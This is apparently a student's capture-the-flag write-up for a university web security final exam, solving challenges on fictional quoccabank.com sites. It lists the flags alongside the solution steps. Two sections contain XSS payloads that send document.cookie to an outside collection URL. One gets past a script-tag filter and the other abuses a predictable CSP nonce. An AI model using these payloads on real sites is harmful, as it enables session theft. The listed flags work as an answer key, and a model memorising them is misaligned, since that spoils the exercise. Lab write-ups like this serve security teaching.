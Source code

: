 ### Q1 - whereami.quoccabank.com (4 flags)

- COMP6843FINAL{GOOD_LUCK_WITH_YOUR_EXAM.ejUzMTI3OTk=.R1+RaySoxFjuhNzMu6C1Ew==}
  - check cookie -> cookie is encoded in base64
    - Q09NUDY4NDNGSU5BTHtHT09EX0xVQ0tfV0lUSF9ZT1VSX0VYQU0uZWpVek1USTNPVGs9LlIxK1JheVNveEZqdWhOek11NkMxRXc9PX0=
    - use cyber chef to decode cookie to get flag
- COMP6843FINAL{ROBOTS_ROBOTS_ROBOTS}
  - check robots.txt to get flag
- Recon:
  - inspecting the source code, theres a /test.php route
  - theres directories in robots.txt

### Q2 - secure-search-today.quoccabank.com (1 flag)

- COMP6843FINAL{REF_XSS_MORE_FILTERS_SIMPLE.ejUzMTI3OTk=.nsceOVn9zcJEm/1jYq2Q8g==}
  - waf againts script tags - using the payload `<image/src/onerror=location.href='https://enumy8vb0ua5f.x.pipedream.net/'+btoa(document.cookie)>` and report the page to get the cookie

### Q3 - secure-research-portal.quoccabank.com (1 flag)

- nonce value is base64 encoded integer value - the generation of the value is predictable as each time the page is reloaded, the nonce decoded value increments by 2

- Use the payload wth the next predicted nonce value and report the page

  ```
  <script nonce="MTAwMTgw">fetch('https://enumy8vb0ua5f.x.pipedream.net/'+btoa(document.cookie))</script>
  ```

### Q4 - qos.quoccabank.com (11 flags)

**QOS - Homepage & Login**: 3 flags and **QOS - Infra & Other Areas**: 3 flags

- COMP6843FINAL{CLOSED_SOURCE_SOFTWARE_DOES_NOT_EXIST.ejUzMTI3OTk=.dTY5DlwG0NQTwsPqA8/yPQ==}
  - Recon: check /qos.js - flag is at the end of the file.
  
- COMP6843FINAL{I_LOVE_LIVE_DEBUGGING.ejUzMTI3OTk=.Z/V6VS+AarrhaLsMZJHpuw==}
  - check robots.txt to reveal that there exists a /debug/pprof/ route
  - accessing /debug/pprof/ gives us a 403 error - which indicates permission error. If we inspect the cookies, there is a debug cookie set to 0. Set the debug cookie to 1 to reveal the flag on the page.
  
- COMP6843FINAL{STACK_TRACE_IS_MY_FRIEND.ejUzMTI3OTk=.cpKfTzD/peCHAl5NGeihTw==}
  - chaining from the previous flag, /debug/pprof gives us a bunch of hyperlinks. Inspecting /debug/pprof/goroutine?debug=1 (one of the hyperlinks displayed on the page) gives us this line `#	0x8fbecc	main.serve_qos_dot_quoccabank_dot_com_slash_lmaolmaolmaolmaolmaocybercybercyber+0x4c	challenges/final/qos/main.go:67`, indicating that this is a possible route on the website. If we access qos.quoccabank.com/lmaolmaolmaolmaolmaocybercybercyber, we can get the flag
  
- COMP6843FINAL{I_ALWAYS_PASS_SECRET_IN_CLI_ARGUMENT.ejUzMTI3OTk=.M0B8Qh7l9Ir/ZyOVScTxxA==}
  - we found the /admin route earlier when checking robots.txt
  - Loggin in: from /debug/pprof, there seems to be a link to debug/pprof/cmdline which displays the error msg `/app/challenges/final/qos/image.binary�-listen�0.0.0.0:80�-jwt_public_key�jwtkeys/jwt.pub�-secret_portal_password�what_could_possibly_go_wrong�-profile_renderer�challenges/final/qos/renderer�-profile_data�/data/profile/�-profile_render_timeout�2s`. Looking at the msg, it would seem that the potential password to the site is `what_could_possibly_go_wrong`
  - Enter `what_could_possibly_go_wrong` as the password to /admin to gain access to the flag
  